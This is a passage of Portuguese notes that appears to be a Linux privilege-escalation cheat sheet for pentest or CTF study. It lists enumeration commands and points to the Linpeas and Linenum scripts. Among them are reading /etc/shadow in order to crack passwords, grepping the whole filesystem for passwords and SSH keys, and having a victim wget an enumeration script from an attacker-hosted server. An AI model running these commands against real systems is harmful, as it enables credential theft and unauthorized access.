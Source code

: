 - `id` -> Pra ver os grupos
- `sudo -l`
- `cat /etc/passwd | cut -d : -f 1` -> Da pra ver os usuários. Acima de 1000 são usuários normais
- `cat /etc/shadow` -> Pra quebrar o password
- `cat /etc/group` -> Ver os grupo
- `history` -> É bom sempre dar uma olhada


## Network Enumeration

- `ifconfig` -> Antigo
- `ip a` -> Novo. Ver ip e interfaces de rede
- `route` -> Antigo
- `ip route` -> Novo. Ver as rotas
- `arp -a` -> Antigo
- `ip neigh` -> Novo. Tabela Arp
- `nestat -ano` -> Ver portas e serviços


## Password Hunting

-  `grep --color=auto -rnw '/' -ie "PASSWORD=" --color=always 2> /dev/null` 
- `locate password (pass, pwd) | more`
- `find / -name autorized_key (id_rsa)`

___

# Automated Tools

### Linpeas

- Primeiro rodar o Linpeas, e depois outras tools
```
# Attacker: python -m http.server

# Victim: wget http://10.6.38.189:8000/linpeas.sh | linpeas.sh
```

- Olhar versão do kernel
- Olhar sempre os red/yellows
- `Modified interesting files in the last 5mins` - > Ajuda a ver cronjobs

### Linenum

```
# Attacker: python -m http.server

# Victim: wget http://10.6.38.189:8000/linenum.sh | linenum.sh
```


### Linux Exploit Suggester
